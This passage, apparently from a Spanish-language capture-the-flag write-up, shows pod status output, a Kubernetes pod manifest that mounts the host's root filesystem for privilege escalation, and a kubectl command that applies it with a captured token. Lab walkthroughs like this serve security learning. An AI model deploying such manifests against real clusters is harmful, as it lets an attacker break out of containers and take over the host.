 ```yaml
    name: nginx
    ready: true
    restartCount: 0
    started: true
    state:
      running:
        startedAt: "2025-03-11T18:29:03Z"
  hostIP: 10.10.11.133
  phase: Running
  podIP: 172.17.0.3
  podIPs:
  - ip: 172.17.0.3
  qosClass: BestEffort
  startTime: "2025-03-11T18:29:02Z"
```

La estrucrura de mi `zelpro.yml`  ser verá así.

```yaml
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: zelpro.yml
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ apiVersion: v1
   2   │ kind: Pod
   3   │ metadata:
   4   │   name: zelpro-pod
   5   │   namespace: default
   6   │ spec:
   7   │   containers:
   8   │   - name: zelpro-pod
   9   │     image: nginx:1.14.2
  10   │     volumeMounts:
  11   │     - mountPath: /mnt
  12   │       name: zelpro-privesc
  13   │   volumes:
  14   │   - name: zelpro-privesc
  15   │     hostPath:
  16   │       path: /
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

```

Ahora ejecutaremos:


```
kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token apply -f zelpro.yml
```

